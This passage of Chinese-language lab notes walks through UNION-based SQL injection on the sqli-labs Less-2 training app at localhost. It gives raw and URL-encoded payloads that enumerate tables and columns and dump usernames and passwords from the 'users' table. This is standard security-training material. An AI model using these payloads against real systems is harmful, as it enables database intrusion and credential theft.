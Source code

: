 - ![](图片/Pasted%20image%2020241018163037.png)
5. 使用对应的SQL进行注入
    - union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
    - http://127.0.0.1/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,version(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27security%27
    - ![](图片/Pasted%20image%2020241018164342.png)
    - union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
    - http://127.0.0.1/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27
    - ![](图片/Pasted%20image%2020241018170114.png)
    - http://127.0.0.1/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,2,(select%20group_concat(username,0x3a,password)from%20users)
    - union select 1,2,(select group_concat(username,0x3a,password)from users)